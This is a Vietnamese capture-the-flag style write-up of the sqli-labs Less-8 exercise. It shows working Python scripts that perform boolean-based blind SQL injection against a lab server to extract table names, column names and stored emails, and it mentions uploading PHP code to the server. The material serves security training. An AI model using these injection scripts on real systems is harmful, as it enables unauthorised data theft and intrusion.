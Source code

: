 # Less 8

Đề bài yêu cầu nhập vào một giá trị 

![](../images/sqli-labs/Less-8/01.png)

Nhập thử một vài giá trị

![](../images/sqli-labs/Less-8/02.png)

![](../images/sqli-labs/Less-8/04.png)

Tiếp tục nhập thêm một vài giá trị khác để kiểm tra

![](../images/sqli-labs/Less-8/100.png)

![](../images/sqli-labs/Less-8/05.png)

![](../images/sqli-labs/Less-8/06.png)

Ta có thể thấy rằng ở đây ở dướng backend đã xử lý không cho hiển thị các lỗi của SQL ra màn hình nữa. Nhưng dựa vào kết quả thử ở bên trên ta có thể thấy câu query có thể là

```
select * from table where id='$ID' limit 0,1
```

Ta thấy ở đây không hiển thị bất cứ điều gì ra màn hình ngoại trừ thông báo chúng ta nhập vào giá trị hợp lệ. Chính vì vậy chúng ta khai thác được gì bằng cách cho nó thông báo lỗi ra màn hình. Ta có thể khai thác bằng cách sử dụng time based như ở [Less-7](Less-7.md) hoặc sử dụng boolean based

![](../images/sqli-labs/Less-8/08.png)

![](../images/sqli-labs/Less-8/07.png)

Sử dụng boolean based để hiến thị dữ liệu trong DB

Show bảng trong Database

```
import requests
import string

text = "You are in..........."
query = "select table_name from information_schema.tables where table_schema='security' limit 0,1"
url_1 = "http://192.168.84.233/sqli-labs/Less-8/?id=100' or substr(("
url_2 = "),{},1)='{}' --+"

url = url_1 + query + url_2
lists = string.printable

for n in range(1,16):
    for i in lists:
        url_r = url.format(n,i)
        res = requests.get(url_r)
        if text in res.text:
            print(i)
            break
```

Kết quả như sau:

```
python Sql-boolean-based.py 
e
m
a
i
l
s
#
#
#
#
#
#
#
#
#
```

Ta thấy bảng thứ nhất trong DB có tên là `emails`

Tương tự ta có thể show các cột trong một bảng

```
import requests
import string

text = "You are in..........."
query = "select column_name from information_schema.columns where table_name='emails' limit 0,1"
url_1 = "http://192.168.84.233/sqli-labs/Less-8/?id=100' or substr(("
url_2 = "),{},1)='{}' --+"

url = url_1 + query + url_2
lists = string.printable

for n in range(1,16):
    for i in lists:
        url_r = url.format(n,i)
        res = requests.get(url_r)
        if text in res.text:
            print(i)
            break
```

Kết quả

```
python Sql-boolean-based.py 
i
d
#
#
#
#
#
#
#
#
```

Ta có thể thấy cột thứ nhất trong bảng emails là `id`

Show giá trị trong bảng

```
import requests
import string

text = "You are in..........."
query = "select email_id from emails limit 0,1"
url_1 = "http://192.168.84.233/sqli-labs/Less-8/?id=100' or substr(("
url_2 = "),{},1)='{}' --+"

url = url_1 + query + url_2
lists = string.printable

for n in range(1,20):
    for i in lists:
        url_r = url.format(n,i)
        res = requests.get(url_r)
        if text in res.text:
            print(i)
            break
```

Giá trị ở đây là:

```
python Sql-boolean-based.py 
d
u
m
b
@
d
h
a
k
k
a
n
.
c
o
m
#
#
#
```

Trong trường `email_id` của bảng `emails` có một giá trị là `dumb@dhakkan.com`

Tương tự ta có thể show được toàn bộ dữ liệu trong DB

Ta có thể truyền một đoạn code PHP vào server như những bài trước